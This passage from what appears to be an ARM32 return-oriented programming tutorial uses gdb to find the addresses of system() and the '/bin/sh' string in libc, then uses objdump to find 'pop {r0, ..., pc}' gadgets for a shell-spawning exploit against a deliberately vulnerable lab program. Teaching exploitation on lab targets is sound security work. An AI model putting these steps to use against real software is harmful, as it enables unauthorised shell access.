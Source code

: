 ```bash
(gdb) b main
Breakpoint 1 at 0x10490: file badcode.c, line 7.
(gdb) run
Starting program: /home/pi/src/rop-tutorial-on-arm32/src/badcode_dep 

Breakpoint 1, main (argc=1, argv=0x7efff354) at badcode.c:7
7	    printf("%p\n", buf); // address of the buf array
(gdb) print &system
$1 = (<text variable, no debug info> *) 0x76e9ffac <__libc_system>
(gdb) find &system,+9999999,"/bin/sh"
0x76f83b20
warning: Unable to access 16000 bytes of target memory at 0x76f93528, halting search.
1 pattern found.
(gdb) x/s 0x76f83b20
0x76f83b20:	"/bin/sh"
```

This way, we find the memory address 0x76f83b20, at which the string
"/bin/sh" resides. Save the hexadecimal representation of this address
to a variable $r0:

```bash
$ r0=$(printf %08x 0x76f83b20 | tac -rs..)
```

Next, we search for a ROP gadget of the form 'pop {r0, ..., pc}' in shared
libraries loaded by the vulnerable program. For example, searching in
'libc'

```bash
$ objdump -d /lib/arm-linux-gnueabihf/libc-2.19.so | grep -B5 "pop.*r0.*pc"
```

we get a number of reasonable choices such as 'pop     {r0, r4, pc}', as
shown below

```text
   7a118:	25714001 	ldrbcs	r4, [r1, #-1]!
   7a11c:	2551c001 	ldrbcs	ip, [r1, #-1]
   7a120:	15603001 	strbne	r3, [r0, #-1]!
   7a124:	25604001 	strbcs	r4, [r0, #-1]!
   7a128:	2540c001 	strbcs	ip, [r0, #-1]
   7a12c:	e8bd8011 	pop	{r0, r4, pc}
--
   7aaa4:	24d14001 	ldrbcs	r4, [r1], #1
   7aaa8:	25d1c000 	ldrbcs	ip, [r1]
   7aaac:	14c03001 	strbne	r3, [r0], #1
   7aab0:	24c04001 	strbcs	r4, [r0], #1
   7aab4:	25c0c000 	strbcs	ip, [r0]
   7aab8:	e8bd8011 	pop	{r0, r4, pc}
--
   d4500:	e92d480f 	push	{r0, r1, r2, r3, fp, lr}
   d4504:	e1b0000b 	movs	r0, fp
   d4508:	15100004 	ldrne	r0, [r0, #-4]
   d450c:	11b0100e 	movsne	r1, lr
   d4510:	1bfffd1b 	blne	d3984 <_mcleanup+0x40>
   d4514:	e8bd880f 	pop	{r0, r1, r2, r3, fp, pc}
```
